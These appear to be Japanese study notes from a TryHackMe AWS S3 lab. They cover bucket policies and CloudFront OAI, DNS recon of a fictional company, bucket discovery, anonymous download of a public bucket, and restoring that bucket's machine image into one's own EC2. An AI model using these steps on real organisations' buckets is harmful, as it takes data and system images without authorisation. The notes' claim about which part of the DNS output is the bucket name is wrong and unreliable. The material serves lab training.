 # S3

https://tryhackme.com/room/awss3service

## 基本

### Access Control Lists (ACLs)

S3 バケットアクセス制御の従来の方法。2021 年以降、ACL を無効にするよう推奨されている。

### Bucket Policy

ACL と似ているが、Human-Readable な形式で、推奨されている。「リソースベースポリシー」と呼ばれるようになった最初の例。AWS における ID ベースの権限は IAM プリンシパルに紐付けられているのに対し、リソースベースポリシーは接続されたリソースへの直接アクセスを許可する。つまり、ポリシーでグローバルな読み取りおよび書き込みアクセスが許可されている場合、バケット内のデータを表示したり、バケットに新しいファイルを追加したりするために AWS 認証情報は必要ない。

## CloudFront "Origin"

CloudFront の背後でホストされているリソースのこと。オリジンアクセスアイデンティティ（OAI）とは、特定の CloudFront リソースのみが CloudFront オリジンの背後にある S3 バケットにアクセスできるようにすることを意味する。

OAI 設定例

```json
{
  "Sid": "1",
  "Effect": "Allow",
  "Principal": {
    "AWS": "arn:aws:iam::cloudfront:user/CloudFront Origin Access Identity EAF5XXXXXXXXX"
  },
  "Action": "s3:GetObject",
  "Resource": "arn:aws:s3:::{your_bucket}/*"
}
```

特定したコンテンツのホストが CloudFront だとわかれば、ホストされているリソースを特定することができる。OAI が適切に設定されていない場合、オリジンに直接アクセスすることができ、CloudFront で実装されているセキュリティ制御がバイパスされてしまう。

（例）

https://crt.sh/ 等により、assets というサブドメインがあることが判明しているとする。

```shell
root@ip-10-10-89-159:~#  nslookup bestcloudcompany.org
Server:         10.10.89.159
Address:        10.10.89.159#53

Non-authoritative answer:
Name:   bestcloudcompany.org
Address: 44.203.62.152

root@ip-10-10-89-159:~# nslookup 44.203.62.152
Server: 10.10.89.159
Address: 10.10.89.159#53

Non-authoritative answer:
152.62.203.44.in-addr.arpa      name = ec2-44-203-62-152.compute-1.amazonaws.com.
```

→ bestcloudcompany.org は EC2 でホストされている。

```shell
root@ip-10-10-89-159:~#  nslookup assets.bestcloudcompany.org
Server: 10.10.89.159
Address: 10.10.89.159#53

Non-authoritative answer:
Name:   assets.bestcloudcompany.org
Address: 143.204.165.84
Name:   assets.bestcloudcompany.org
Address: 143.204.165.101
Name:   assets.bestcloudcompany.org
Address: 143.204.165.123
Name:   assets.bestcloudcompany.org
Address: 143.204.165.5


root@ip-10-10-89-159:~# nslookup 143.204.165.84
Server: 10.10.89.159
Address: 10.10.89.159#53

Non-authoritative answer:
84.165.204.143.in-addr.arpa     name = server-143-204-165-84.dfw3.r.cloudfront.net.
```

→ assets.bestcloudcompany.org は CloudFlont でホストされている。

## S3 バケットの探索

### Google 検索

```
org: bestcloudcompany site: s3.amazonaws.com
```

### Web ページのソース

s3 の URL が含まれていないか

### バケットの名前

assets.bestcloudcompany.org を S3 でホストしているとする。

```shell
nslookup assets.bestcloudcompany.org.s3.amazonaws.com
Server: 10.10.89.159
Address: 10.10.89.159#53

Non-authoritative answer:
assets.bestcloudcompany.org.s3.amazonaws.com   canonical name = s3-1-w.amazonaws.com.   s3-1-w.amazonaws.com canonical name = s3-w.us-east-1.amazonaws.com.
Name: s3-w.us-east-1.amazonaws.com
Address: 52.217.166.169
```

上記の例でいうと、s3-1-w.amazonaws.com の部分がバケット名になる。

```shell
# パブリック bucket のダウンロード
aws s3 sync s3://{bucket-name} . --no-sign-request
```

AMI マシンイメージ（.bin ファイル）が見つかったと想定して、自分の EC2 に環境を復元する。

```shell
# 自分のアクセスキーを設定
aws configure

# 他人のバケットのマシンイメージを使って、自分の EC2 内に新しい AMI を作成する
aws ec2 create-restore-image-task --object-key {AMI_Object_ID} --bucket assets.bestcloudcompany.org --name {Unique_Name}

# SSH鍵生成
aws ec2 create-key-pair --key-name {Your_Key_Name} --query "KeyMaterial" --output text > ~/.ssh/bestkeys.pem

# イメージを使い、自分の環境にEC2をデプロイする
aws ec2 run-instances --image-id {ID_From_Restored_Image} --instance-type t3a.micro --key-name {Your_Key_Name} --subnet-id {SubnetA_SubnetID} --security-group-id {S3Room_TryHackMe_Security_Group}
```
